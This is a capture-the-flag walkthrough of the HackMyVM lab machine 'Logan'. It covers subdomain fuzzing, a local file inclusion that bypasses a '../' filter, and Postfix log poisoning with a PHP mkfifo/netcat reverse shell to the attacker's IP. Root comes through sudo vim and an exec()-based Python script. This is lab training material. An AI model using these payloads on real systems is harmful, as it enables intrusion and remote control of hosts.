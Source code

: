 # writeup logan hackmyvm

## machine info
- VmName : Logan
- Creator : d3b0o
- Level : medium
- Link : [https://downloads.hackmyvm.eu/logan.zip](https://downloads.hackmyvm.eu/logan.zip)

## walkthrough
### summary
- get a subdomain using web fuzzer
- find LFI from the subdomain web site
- write php reverse shell into postfix log file
- get a user shell (www-data) using LFI
- get a user shell (logan) using sudo command
- get a root shell using sudo command

### get machine ip address
```
sudo netdiscover -i eth0 -r 192.168.0.0/24
```
```mermaid
flowchart LR
    id1("kali (attacker)
    192.168.0.4")
    ----
    id2("logan.hmv (target)
    192.168.0.254")
```

### scan open ports
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ nmap -T4 -sC -sV -p- -oN nmap.log 192.168.0.254
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-19 03:21 EDT
Nmap scan report for discover (192.168.0.254)
Host is up (0.00066s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
| ssl-cert: Subject: commonName=logan
| Subject Alternative Name: DNS:logan
| Not valid before: 2023-07-03T13:46:49
|_Not valid after:  2033-06-30T13:46:49
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: logan.hmv, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host:  logan.hmv

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.93 seconds
```

### get a user shell
I checked out a website (port 80).
- whatweb
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ whatweb http://logan.hmv                  
http://logan.hmv [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[192.168.0.254], JQuery[3.4.1], Script[text/javascript], Title[Logan], X-UA-Compatible[IE=edge]
```
![](./img/web_01.png)

I think that a form of this website is not working.
![](./img/web_02.png)
![](./img/web_03.png)

I could not find useful information from the website.
So, I tried finding a subdomain.
- wfuzz
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://logan.hmv" -H "HOST: FUZZ.logan.hmv" -t 100 -Z --hh 65 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://logan.hmv/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                    
=====================================================================

000000024:   200        62 L     101 W      1112 Ch     "admin - admin"                                                            
000009532:   400        10 L     35 W       301 Ch      "#www - #www"                                                              
000010581:   400        10 L     35 W       301 Ch      "#mail - #mail"                                                            
000047706:   400        10 L     35 W       301 Ch      "#smtp - #smtp"                                                            
000103135:   400        10 L     35 W       301 Ch      "#pop3 - #pop3"                                                            

Total time: 217.2565
Processed Requests: 114441
Filtered Requests: 114436
Requests/sec.: 526.7551
```

I could find a subdomain website (admin.logan.hmv).
So, I checked out the website.
- Administration panel
![](./img/web_04.png)
- Upload files
![](./img/web_05.png)
I uploaded some files. But, I could not find the files on the website.
- Logs
![](./img/web_06.png)
There was neither clearlogs.php file nor backup files (clearlogs.php.bak, and so on) on the website.
- Payments
![](./img/web_07.png)
I found there are three files (01, 02, 03) on the website.
I realized the website removed "../" string from input string after trying many things.
![](./img/web_08.png)
So, I tried entering "....//....//....//....//etc/passwd" string there, I could get LFI (Local File Inclusion) from the website.
![](./img/web_09.png)

Because I could read a postfix log file from the website using LFI, I tried getting a shell using it.
![](./img/web_10.png)
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ nc logan.hmv 25
220 logan.hmv ESMTP Postfix (Ubuntu)
mail from:logan
250 2.1.0 Ok
rcpt to:<?php exec("rm /tmp/p;mkfifo /tmp/p;cat /tmp/p|/bin/sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/p"); ?>
501 5.1.3 Bad recipient address syntax
```
![](./img/shell_01.png)
I could get a user shell (www-data).

When I executed sudo command, I found I can execute vim command with logan's privileges.
```
www-data@logan:/var/www/admin$ sudo -l
Matching Defaults entries for www-data on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on logan:
    (logan) NOPASSWD: /usr/bin/vim
www-data@logan:/var/www/admin$ 
```

So, I executed vim command with logan's privileges and execute bash command from vim.
![](./img/shell_02.png)
```
www-data@logan:/var/www/admin$ sudo -u logan /usr/bin/vim

logan@logan:/var/www/admin$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan),27(sudo),1002(administration)
```

I could get a user shell (logan) and a user flag (logan). 😺
```
logan@logan:~$ ls -la
total 36
drwxr-xrwx 4 logan logan 4096 Jul 18 08:42 .
drwxr-xr-x 3 root  root  4096 Jul 17 20:59 ..
lrwxrwxrwx 1 root  root     9 Jul 17 11:11 .bash_history -> /dev/null
-rw-r--r-x 1 logan logan  220 Jan  6  2022 .bash_logout
-rw-r--r-x 1 logan logan 3771 Jan  6  2022 .bashrc
drwx---r-x 2 logan logan 4096 Jul  3 13:41 .cache
drwxrwxr-x 3 logan logan 4096 Jul 17 12:08 .local
-rw-r--r-x 1 logan logan  807 Jan  6  2022 .profile
-rw-r--r-x 1 logan logan    0 Jul  3 13:42 .sudo_as_admin_successful
-rw-r--r-- 1  1002  1003   68 Jul 17 12:41 to-do
-rw-r--r-- 1 logan logan   16 Jul 17 20:45 user.txt
logan@logan:~$ cat user.txt 
User: i*******s
```

### get a root shell
```
logan@logan:~$ cat to-do 
- Go outside
- Try the new script that gave me root to learn python
```

When I executed sudo command, I found I can execute a python script with root's privileges.
```
logan@logan:~$ sudo -l
Matching Defaults entries for logan on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User logan may run the following commands on logan:
    (root) NOPASSWD: /usr/bin/python3 /opt/learn_some_python.py
logan@logan:~$ ls -l /opt/learn_some_python.py
-rw------- 1 root root 132 Jul 18 08:48 /opt/learn_some_python.py
```

So, I executed the script.
```
logan@logan:~$ sudo -u root /usr/bin/python3 /opt/learn_some_python.py
Welcome!!!

 The first you need to now is how to use print, please type print('hello')

aaaaa
Traceback (most recent call last):
  File "/opt/learn_some_python.py", line 3, in <module>
    exec(comand)
  File "<string>", line 1, in <module>
NameError: name 'aaaaa' is not defined
```

It looks like I can enter python scripts into the exec function.
So, I entered the following into it.
```
import os;os.system("/bin/bash");
```
```
logan@logan:~$ sudo -u root /usr/bin/python3 /opt/learn_some_python.py
Welcome!!!

 The first you need to now is how to use print, please type print('hello')

import os;os.system("/bin/bash");
root@logan:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
```

I could get a root shell and a root flag. 😺
```
root@logan:~# ls -la
total 48
drwx------  5 root root 4096 Jul 17 21:02 .
drwxr-xr-x 19 root root 4096 Jul  3 13:40 ..
lrwxrwxrwx  1 root root    9 Jul 17 11:11 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Jul  3 14:10 .launchpadlib
-rw-------  1 root root   20 Jul 17 11:52 .lesshst
drwxr-xr-x  3 root root 4096 Jul  3 13:46 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Jul  4 19:13 .selected_editor
-rw-r--r--  1 root root    0 Jul  3 13:45 .sudo_as_admin_successful
-rw-------  1 root root  985 Jul 17 14:27 .viminfo
-rw-r--r--  1 root root  169 Jul  3 14:15 .wget-hsts
-rw-r--r--  1 root root   17 Jul 17 20:44 root.txt
drwx------  3 root root 4096 Jul  4 15:52 snap
root@logan:~# cat root.txt 
Root: s********u
```
